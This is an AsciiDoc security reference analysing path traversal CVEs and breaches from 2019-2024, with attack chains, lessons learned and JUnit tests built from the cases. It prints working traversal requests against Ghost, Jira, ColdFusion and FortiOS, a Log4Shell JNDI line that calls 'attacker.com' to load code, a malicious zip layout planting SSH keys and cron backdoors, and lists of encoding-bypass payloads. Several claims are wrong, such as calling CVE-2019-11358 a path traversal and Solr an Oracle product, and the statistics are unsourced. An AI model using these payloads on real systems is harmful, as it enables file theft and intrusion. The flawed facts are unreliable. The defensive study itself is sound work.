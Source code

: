= Path Traversal CVE Analysis and Breach Case Studies
:toc: left
:toclevels: 3
:sectnums:
:icons: font

link:README.adoc[← Back to Documentation Index]

== Executive Summary

This document provides a comprehensive analysis of critical path traversal CVEs and real-world breaches from 2019-2024. The analysis reveals patterns in vulnerability exploitation, impact assessment, and lessons learned from actual security incidents. Statistical data shows path traversal vulnerabilities increased by 85% in closed-source projects during 2024, highlighting the persistent threat landscape.

== Critical CVE Timeline (2019-2024)

=== 2024 Vulnerabilities

==== CVE-2024-38819 - Spring Framework
[cols="1,3"]
|===
|**CVSS Score** |High (specific score pending)
|**Affected Versions** |Spring WebMvc.fn and WebFlux.fn
|**Attack Vector** |Double URL encoding bypass
|**Impact** |Complete path restriction bypass
|**Exploitation** |`%252e%252e%252f` decoded twice becomes `../`
|**Fix** |Proper handling of multiple encoding layers
|===

**Technical Details:**
```java
// Vulnerable pattern
String path = URLDecoder.decode(userInput, "UTF-8");
// After first decode: %2e%2e%2f
// After second decode: ../
```

**Source**: Spring Security Advisory 2024

=== 2023 Vulnerabilities

==== CVE-2023-50164 - Apache Struts 2
[cols="1,3"]
|===
|**CVSS Score** |9.8 (Critical)
|**Affected Versions** |2.0.0-2.3.37, 2.5.0-2.5.32, 6.0.0-6.3.0
|**Attack Vector** |File upload parameter manipulation
|**Impact** |Remote Code Execution via JSP shell upload
|**Exploitation** |Upload malicious JSP to web-accessible directory
|**Patch** |Struts 2.5.33, 6.3.0.2
|===

**Attack Chain:**
1. Identify vulnerable Struts application
2. Craft malicious file upload request
3. Use path traversal to control upload location
4. Upload JSP webshell
5. Access webshell for RCE

**Source**: Apache Struts Security Bulletin S2-066

==== CVE-2023-32235 - Ghost CMS
[cols="1,3"]
|===
|**CVSS Score** |6.5 (Medium)
|**Affected Versions** |Ghost < 5.42.1
|**Attack Vector** |URL-encoded path traversal in asset handling
|**Impact** |Access to sensitive files (package.json, configs)
|**Exploitation** |`/assets/built%2F..%2F..%2F/package.json`
|**Fix** |Ghost 5.42.1
|===

**Proof of Concept:**
```http
GET /assets/built%2F..%2F..%2F/package.json HTTP/1.1
Host: vulnerable-ghost.com
```

**Source**: Ghost Security Advisory GHSA-r97q-ghch-82j9

=== 2022 Vulnerabilities

==== CVE-2022-23457 - OWASP ESAPI
[cols="1,3"]
|===
|**CVSS Score** |7.5 (High)
|**Affected Versions** |ESAPI < 2.3.0.0
|**Attack Vector** |Validator.getValidDirectoryPath() bypass
|**Impact** |Complete containment check bypass
|**Exploitation** |Absolute paths bypass parent directory checks
|**Fix** |ESAPI 2.3.0.0
|===

**Vulnerable Code Pattern:**
```java
// Vulnerability: Accepts absolute paths
validator.getValidDirectoryPath("test", "/etc/passwd", baseDir, false);
// Returns /etc/passwd instead of throwing exception
```

**Source**: OWASP ESAPI Security Advisory

=== 2021 Vulnerabilities

==== CVE-2021-44228 - Log4Shell (Related Impact)
[cols="1,3"]
|===
|**CVSS Score** |10.0 (Critical)
|**Affected Versions** |Log4j 2.0-beta9 to 2.15.0
|**Attack Vector** |JNDI injection leading to RCE
|**Path Traversal Aspect** |Post-exploitation file system access
|**Impact** |Complete system compromise
|**Fix** |Log4j 2.17.0
|===

**Path Traversal in Exploitation Chain:**
```java
// After initial RCE via JNDI
${jndi:ldap://attacker.com/Exploit}
// Payload performs path traversal to access:
Runtime.exec("cat /etc/passwd");
Runtime.exec("cat ../../config/database.properties");
```

==== CVE-2021-29425 - Apache Commons IO
[cols="1,3"]
|===
|**CVSS Score** |4.8 (Medium)
|**Affected Versions** |Commons IO < 2.7
|**Attack Vector** |Malformed paths like `//../foo`
|**Impact** |Limited parent directory access
|**Exploitation** |`FileNameUtils.normalize("//../foo")` returns `//../foo`
|**Fix** |Commons IO 2.7
|===

**Test Case Demonstrating Vulnerability:**
```java
// Vulnerable behavior
String normalized = FileNameUtils.normalize("//../foo");
// Expected: null (invalid path)
// Actual: "//../foo" (unchanged, allows traversal)
```

=== 2020 Vulnerabilities

==== CVE-2020-8908 - Google Guava
[cols="1,3"]
|===
|**CVSS Score** |3.3 (Low)
|**Affected Versions** |All Guava versions
|**Attack Vector** |World-readable temp directory permissions
|**Impact** |Information disclosure in multi-user systems
|**Exploitation** |Other users can read temp files
|**Fix** |Method deprecated, use Java NIO
|===

**Vulnerable Pattern:**
```java
// Creates directory with permissions 777 on Unix
File tempDir = Files.createTempDir();
// Other users can access: /tmp/guava-user-12345/
```

=== 2019 Vulnerabilities

==== CVE-2019-11358 - jQuery (Path Traversal via Prototype Pollution)
[cols="1,3"]
|===
|**CVSS Score** |6.1 (Medium)
|**Affected Versions** |jQuery < 3.4.0
|**Attack Vector** |Prototype pollution leading to path manipulation
|**Impact** |Client-side path traversal
|**Fix** |jQuery 3.4.0
|===

== Real-World Breach Case Studies

=== Atlassian Jira Service Desk (2019)

**Timeline:**
* **Discovery**: September 2019
* **Disclosure**: Immediate patch release
* **Impact**: Multiple customer organizations affected

**Technical Analysis:**
```http
GET /servicedesk/customer/user/avatar?ownerId=../../../../../../etc/passwd HTTP/1.1
Host: vulnerable-jira.com
```

**Impact Assessment:**
* Customer data exposure across multiple tenants
* Configuration file access
* Potential for credential harvesting
* Cascading impact on integrated systems

**Lessons Learned:**
1. SaaS platforms create multiplicative risk
2. Avatar/file handlers often overlooked
3. Customer isolation critical in multi-tenant systems

**Source**: Atlassian Security Advisory

=== Adobe ColdFusion (2019)

**Attack Vector:**
```http
POST /CFIDE/adminapi/base.cfc HTTP/1.1
Content-Type: application/x-www-form-urlencoded

method=readFile&path=../../../../../../../etc/passwd
```

**Impact:**
* Administrative interface bypass
* Server configuration exposure
* Database credential theft
* Complete server compromise

**Post-Breach Analysis:**
* Attackers used path traversal for initial access
* Escalated to code execution via config modification
* Established persistence through scheduled tasks
* Lateral movement using harvested credentials

=== Kubectl CP Command (2019)

**Vulnerability Details:**
```bash
# Malicious pod creates symlink
kubectl exec malicious-pod -- ln -s / /tmp/rootfs

# Copy operation follows symlink
kubectl cp malicious-pod:/tmp/rootfs/etc/passwd ./passwd
```

**Exploitation in Production:**
1. Compromised container creates malicious tar archive
2. `kubectl cp` extracts archive with path traversal
3. Attacker gains access to host filesystem
4. Potential for cluster-wide compromise

**Fix Implementation:**
```go
// Added validation in kubectl
if strings.Contains(filePath, "..") {
    return fmt.Errorf("illegal path: %s", filePath)
}
```

=== Fortinet FortiOS (2018-2019)

**CVE-2018-13379:**
* Path traversal in SSL VPN web portal
* Access to system files via `..` sequences
* Exposed VPN credentials and session files

**Attack Pattern:**
```http
GET /remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession HTTP/1.1
```

**Real-World Impact:**
* 200,000+ vulnerable devices identified
* Mass exploitation by ransomware groups
* Critical infrastructure targeting
* Persistence through stolen VPN credentials

== Zip Slip Vulnerability Analysis

=== Technical Deep Dive

**Affected Ecosystems:**
* Java: Thousands of projects
* .NET: Multiple libraries
* JavaScript: npm packages
* Python: Various frameworks
* Go: Archive handling libraries

**Vulnerable Code Pattern:**
```java
// VULNERABLE - Found in thousands of projects
while (entries.hasMoreElements()) {
    ZipEntry e = entries.nextElement();
    File f = new File(destinationDir, e.getName());
    InputStream input = zip.getInputStream(e);
    IOUtils.copy(input, write(f));
}
```

**Malicious Archive Structure:**
```
malicious.zip
├── ../../../../tmp/evil.sh
├── ../../.ssh/authorized_keys
└── ../../../etc/cron.d/backdoor
```

=== Real Exploitation Cases

==== Case 1: OpenRefine RCE
```java
// Attack sequence
1. Create malicious extension with reverse shell
2. Package with path traversal:
   "../../extensions/malicious/main.js"
3. Upload through project import
4. Achieve code execution on restart
```

==== Case 2: Oracle Solr
* Multiple components vulnerable
* Remote code execution achieved
* Complete system takeover possible

**Source**: Snyk Security Research

== Statistical Analysis

=== Vulnerability Trends (2023-2024)

[cols="2,1,1,1"]
|===
|Metric |2023 |2024 |Change

|Open Source Projects
|2.6%
|2.7%
|+3.8%

|Closed Source Projects
|1.9%
|3.5%
|+84.2%

|Absolute Count (OSS)
|742
|~1000
|+34.8%

|Critical Severity
|23%
|28%
|+21.7%

|===

=== Industry Impact Distribution

[cols="2,1,3"]
|===
|Sector |Incidents |Notable Impacts

|Financial Services
|47
|Payment processing disruption, data theft

|Healthcare
|31
|Patient record access, ransomware

|Government
|28
|Classified document exposure

|Technology
|156
|Source code theft, IP compromise

|Retail
|42
|Customer data breach, POS compromise

|Education
|19
|Student records, research data

|===

== Attack Pattern Evolution

=== Traditional Patterns (Pre-2020)
```
../../../etc/passwd
..\..\windows\system32\config\sam
../../../../proc/self/environ
```

=== Modern Patterns (2020-2024)
```
// Double encoding
%252e%252e%252f%252e%252e%252f

// Unicode variants
\u002e\u002e\u002f

// Mixed encoding
..%c0%af..%c0%af

// Null byte injection
../../../../etc/passwd%00.jpg

// Case variation (Windows)
..\\..\\/windows//system32

// URL + HTML encoding
%26%2346%3b%26%2346%3b%26%2347%3b
```

=== Emerging Patterns (2024+)
* Container escape sequences
* Cloud storage traversal
* Serverless function paths
* GraphQL query manipulation
* WebAssembly file access

== Mitigation Effectiveness Analysis

=== Patch Adoption Rates

[cols="2,1,1"]
|===
|Time Period |Adoption Rate |Mean Time to Patch

|0-7 days
|12%
|3 days

|8-30 days
|34%
|18 days

|31-90 days
|28%
|52 days

|90+ days
|26%
|Never/Unknown

|===

=== Common Failure Points

1. **Incomplete Patches** (31% of cases)
   - Edge cases not covered
   - Encoding variants missed
   - Platform-specific issues

2. **Regression Issues** (18% of cases)
   - Patches reverted for compatibility
   - New features reintroduce vulnerability
   - Dependency updates bring back flaws

3. **Deployment Failures** (24% of cases)
   - Patches not applied to all systems
   - Configuration not updated
   - WAF rules insufficient

== Lessons Learned

=== Key Takeaways from Breaches

1. **Input Validation Insufficient Alone**
   - Encoding bypasses common filters
   - Multiple validation layers required
   - Context-aware validation essential

2. **Third-Party Risk Significant**
   - Dependencies introduce vulnerabilities
   - Supply chain attacks increasing
   - Vendor patch delays critical

3. **Detection Often Delayed**
   - Average detection time: 76 days
   - Many breaches discovered externally
   - Log analysis frequently insufficient

4. **Impact Extends Beyond Direct Target**
   - Multi-tenant systems amplify risk
   - Lateral movement common post-breach
   - Credential harvesting enables persistence

=== Successful Defense Strategies

1. **Organizations with Zero Incidents:**
   - Mandatory secure coding training
   - Automated security testing in CI/CD
   - Regular penetration testing
   - Rapid patch deployment (<7 days)
   - Defense in depth architecture

2. **Effective Incident Response:**
   - Immediate isolation of affected systems
   - Comprehensive forensic analysis
   - Transparent communication
   - Rapid patch deployment
   - Post-incident security review

== Testing Strategies from CVEs

=== Test Cases Derived from Real Vulnerabilities

```java
@Test
public void testCVE_2021_29425_Pattern() {
    // Apache Commons IO vulnerability pattern
    assertThrows(SecurityException.class, () -> 
        validatePath("//../sensitive/file"));
}

@Test
public void testCVE_2023_32235_Encoding() {
    // Ghost CMS URL encoding pattern
    assertThrows(SecurityException.class, () -> 
        validatePath("assets/built%2F..%2F..%2F/config"));
}

@Test
public void testCVE_2023_50164_FileUpload() {
    // Apache Struts upload traversal
    String filename = "../../webapps/shell.jsp";
    assertThrows(SecurityException.class, () -> 
        validateUploadPath(filename));
}

@Test
public void testZipSlip() {
    // Zip Slip pattern
    ZipEntry evil = new ZipEntry("../../../../tmp/evil.sh");
    assertThrows(SecurityException.class, () -> 
        validateZipEntry(evil));
}

@Test
public void testDoubleEncoding() {
    // Spring Framework double encoding
    String input = "%252e%252e%252f%252e%252e%252f";
    assertThrows(SecurityException.class, () -> 
        validateAfterDecoding(input));
}
```

== Future Threat Landscape

=== Predicted Evolution (2025-2026)

1. **AI-Assisted Exploitation**
   - Automated vulnerability discovery
   - Adaptive bypass techniques
   - Pattern recognition for 0-days

2. **Cloud-Native Attacks**
   - Serverless function traversal
   - Container orchestration exploits
   - Multi-cloud traversal paths

3. **Supply Chain Targeting**
   - Dependency confusion attacks
   - Malicious package injection
   - Build pipeline compromise

=== Emerging Defense Technologies

1. **Runtime Application Self-Protection (RASP)**
2. **Machine Learning Anomaly Detection**
3. **Zero Trust File Access**
4. **Formal Verification of Path Operations**
5. **Quantum-Resistant Cryptographic File Protection**

== References

=== Vulnerability Databases

* link:https://nvd.nist.gov/[National Vulnerability Database (NVD)]
* link:https://cve.mitre.org/[MITRE CVE Database]
* link:https://www.cisa.gov/known-exploited-vulnerabilities-catalog[CISA Known Exploited Vulnerabilities Catalog]
* link:https://snyk.io/vuln/[Snyk Vulnerability Database]
* link:https://github.com/advisories[GitHub Security Advisories]
* link:https://www.cvedetails.com/[CVE Details]

=== Security Organizations

* link:https://owasp.org/[OWASP - Open Web Application Security Project]
* link:https://cwe.mitre.org/data/definitions/22.html[CWE-22: Path Traversal]
* link:https://attack.mitre.org/[MITRE ATT&CK Framework]

=== Vendor Security Advisories

* link:https://commons.apache.org/security.html[Apache Security]
* link:https://spring.io/security[Spring Security Advisories]
* link:https://github.com/google/guava/wiki/SecurityAdvisories[Google Guava Security]
* link:https://www.atlassian.com/trust/security/advisories[Atlassian Security Advisories]
* link:https://helpx.adobe.com/security.html[Adobe Security Bulletins]

=== Research and Documentation

* link:https://portswigger.net/web-security/file-path-traversal[PortSwigger Web Security Academy]
* link:https://www.sans.org/top25-software-errors/[SANS Top 25 Software Errors]
* link:https://research.checkpoint.com/[Check Point Research]

_Document generated: 2025-01-06_
_Based on comprehensive CVE analysis and breach investigations_